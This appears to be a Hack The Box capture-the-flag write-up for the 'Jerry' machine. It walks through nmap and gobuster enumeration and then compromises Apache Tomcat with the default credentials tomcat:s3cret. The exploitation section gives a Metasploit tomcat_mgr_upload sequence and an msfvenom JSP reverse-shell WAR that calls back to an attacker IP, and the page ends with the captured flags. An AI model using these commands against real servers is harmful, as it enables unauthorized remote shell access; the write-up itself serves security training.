 # Jerry

## Information Gathering
10.10.10.95
Apache Tomcat/7.0.88

## Enumeration
Scanning with nmap
> nmap -sC -sV -oN nmap/jerry.nmap -Pn 10.10.10.95
```bash
# Nmap 7.92 scan initiated Wed Dec 29 16:09:44 2021 as: nmap -sC -sV -oN nmap/jerry.nmap -Pn 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.029s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 16:09:58 2021 -- 1 IP address (1 host up) scanned in 14.74 seconds
```
I also began directory busting the web application while I look for attack vectors with Apache Tomcat/Coyote webserver
> gobuster dir -u http://10.10.10.95 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x html,php,txt -o gob/jerry.gob
```bash
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.html (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.php (Status: 400) [Size: 0]
/http%3A%2F%2Fwww.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.php (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.php (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.html (Status: 400) [Size: 0]
/http%3A%2F%2Fblog.php (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.php (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.txt (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww.html (Status: 400) [Size: 0]
/RELEASE-NOTES.txt    (Status: 200) [Size: 9600]
/External%5CX-News.php (Status: 400) [Size: 0]
/External%5CX-News.txt (Status: 400) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 0]
/External%5CX-News.html (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.html (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.php (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fradar   (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.html (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.php (Status: 400) [Size: 0]
/http%3A%2F%2Fradar.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.html (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.php (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.txt (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.html (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog.php (Status: 400) [Size: 0]
/http%3A%2F%2Fswik    (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.html (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.php (Status: 400) [Size: 0]
/http%3A%2F%2Fswik.txt (Status: 400) [Size: 0]
```
## Exploitation

Doing some research for a Tomcat CVE I stumbled upon an arbitrary upload. But first I needed to determine the credentials for the /manager/ directory. I found a default credentials list <a href="https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown">here</a>. After guessing a bunch the credentials were <b>tomcat:s3cret</b>. I want to do this exploit in two ways: Automatically using <a href="https://www.metasploit.com/">Metasploit</a> and manually. Below is the automatic steps:
```bash
msfconsole
msf6 > search tomcat_mgr_upload
msf6 > set httppassword s3cret
msf6 > set httpusername tomcat
msf6 > set rhosts 10.10.10.95
msf6 > set rport 8080
msf6 > exploit
```
Which gives a Meterpreter shell.<br>

Doing the manual way suprisingly doesn't require much more intuition. Using <a href="https://www.offensive-security.com/metasploit-unleashed/msfvenom/">msfvenom</a> we can generate a payload to upload to /manager/html. Once the payload is generated, navigating to /shell/ while having a netcat listener gives a shell.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.122 LPORT=1337 -f war > shell.war
nc -lnvp 1337
```

## Privilege Escalation

I can navigate directly to C:\Users\Administrator\Desktop\flags and cat "2 for the price of one.txt" which gives both user and root flag. I need to do more studying on Windows privilege escalation anyways...

user.txt : 7004dbcef0f854e0fb401875f26ebd00
root.txt : 04a8b36e1545a455393d067e772fe90e